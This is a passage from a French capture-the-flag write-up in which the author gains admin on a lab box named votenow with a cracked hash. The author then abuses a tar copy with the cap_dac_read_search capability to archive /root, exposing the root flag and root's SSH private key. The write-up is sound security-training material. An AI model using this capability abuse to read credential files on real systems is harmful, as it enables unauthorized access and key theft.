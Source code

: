 Mais avant d'en arriver là j'ai remarqué une entrée étrange dans la liste des binaires avec des capabilities :  

```plain
Files with capabilities (limited to 50):
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/tarS = cap_dac_read_search+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

Ce *tarS* a un nom bizarre. Est-ce une copie de la commande *tar* ? Plus de doute sur son rôle quand on voit le propriétaire du binaire :  

```plain
-rwx------. 1 admin admin 346136 Jun 27  2020 /usr/bin/tarS
```

D'après une [page de manuel](http://manpagesfr.free.fr/man/man7/capabilities.7.html), *CAP\_DAC\_READ\_SEARCH*  

> Contourne les permissions de lecture de fichiers et celles de lecture et exécution des répertoires.

Il nous faut être *admin* pour utiliser le programme, ça tombe bien le hash cassé précédemment nous permet de nous connecter via *su*.  

On trouve deux fichiers texte une fois connecté :  

```plain
[admin@votenow ~]$ cat user.txt 
663ba6a402a57536772c6118e8181570
[admin@votenow ~]$ cat notes.txt 
Reminders:

1) Utilise new commands to backup and compress sensitive files
```

Merci j'avais pigé ! :p  

On peut donc utiliser la capability pour lire ce que l'on souhaite sur le système mais pas écrire malheureusement. On va archiver ce qui est dans le dossier de *root* :  

```bash
tarS cz /root > root.tar.gz
```

On y trouve entre autres les fichiers suivants :  

```plain
root/root-final-flag.txt
root/.ssh/
root/.ssh/id_rsa
root/.ssh/id_rsa.pub
root/.ssh/authorized_keys
```
